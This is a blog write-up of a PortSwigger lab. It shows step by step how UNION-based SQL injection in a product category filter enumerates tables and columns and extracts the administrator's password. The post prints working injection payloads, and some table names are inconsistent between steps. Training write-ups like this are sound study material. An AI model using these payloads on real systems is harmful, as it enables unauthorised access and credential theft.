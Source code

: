 +++
title = 'Sql Injection'
date = 2024-07-19T16:26:59+05:30
slug = "portswigger-SQL-database-listing"
categories = ["portswigger","SQL injection","listing databsse contents","non oracle databases"]
+++


![](https://dl.dropbox.com/scl/fi/oq9yjqzle6rfh2jxb352q/Pasted-image-20240528154701.png?rlkey=rxd3yguzvz3b2kayujtpdanrn&st=c6oqh2ej&dl=0)

From the lab description This lab contains SQL injection Vulnerability in Product category filter 
to solve this lab we need to login as administrator 
this lab contains non oracle databases

refer to SQL CHEAT SHEET for payloads
Let's access the lab 
like as usual we've intercepted the request and sent it to repeater now let's check number of columns and determine the data type of those columns to perform a union attack 

![](https://dl.dropbox.com/scl/fi/m7w07au73tb7lr2ecu2ra/Pasted-image-20240528155320.png?rlkey=xnvxljhlqovgh0nxnlkicevrz&st=1a71ox0p&dl=0)

we got internal server error of we dfo order by 3 so number of columns is 2 now let's determine the datatype of those columns The payload is 
`'+UNION+SELECT+'abc','def'-- `

![](https://dl.dropbox.com/scl/fi/sn5wv3itx1rnsxsgsw5iv/Pasted-image-20240528155700.png?rlkey=k8t9trwqh0qxkjsllsajpzkjb&st=dc8yi8xz&dl=0)

so we now know that both columns are of same data type let's now retrieve the username and password for the file 

![](https://dl.dropbox.com/scl/fi/0cd5tce8qdhsbdaejuifz/Pasted-image-20240528155829.png?rlkey=f21syt9md5jfar0clolfg9eb8&st=bg3iyrhb&dl=0)


payload to retrieve information about list of tables in database

`+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

We got some list of tables let's check them

![](https://dl.dropbox.com/scl/fi/60ulhhur5ir6m6ha1nz9e/Pasted-image-20240528160753.png?rlkey=8rqn1mcdxau4dxl620sw1tbhh&st=xttavidz&dl=0)


![](https://dl.dropbox.com/scl/fi/9cd8uverbzx3imofvmgub/Pasted-image-20240528161215.png?rlkey=9ke0oh0l27zqzmfxhybmh8frl&st=pb65vp8p&dl=0)

the above is the user table 



to retrieve the usernames the payload will be 
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_avyrcv'--

![](https://dl.dropbox.com/scl/fi/v287jdlo2hpvcti034puq/Pasted-image-20240528161452.png?rlkey=jqhu8q3tja0y7gs8dabkpiklf&st=gwdwbnnd&dl=0)

we got a username table and a match with word starting with pass that might be the password table 


username_umpehj


The payload to view password table will be 

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='password_ohgyxof'--



we got our password table too
let's retrieve the details form both tables 

The paylaod will be 


username table : users_avyrcv
password table : password_ohgyxo
username: username_umpehj

'+UNION+SELECT+username_umpehj,+ password_ohgyxo+FROM+users_avyrcv--

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_avyrcv'--

![](https://dl.dropbox.com/scl/fi/4wtvyle7x2vrfiarxu8lk/Pasted-image-20240528164107.png?rlkey=kowdimi0ksncrhoeqqsft1ntc&st=fyi0c92f&dl=0)

let's find administrator details and login 

![](https://dl.dropbox.com/scl/fi/w8y2rcxylsrat2jnywz0n/Pasted-image-20240528164241.png?rlkey=cjaj4guqlrfgb9zp9btrdr7nr&st=ivu3wxft&dl=0)

now let's login

![](https://dl.dropbox.com/scl/fi/6ya24vxfoynky2gl4c3ir/Pasted-image-20240528164353.png?rlkey=7uqwlx73dtyjpwsjtradl7h4v&st=vcybo7nr&dl=0)



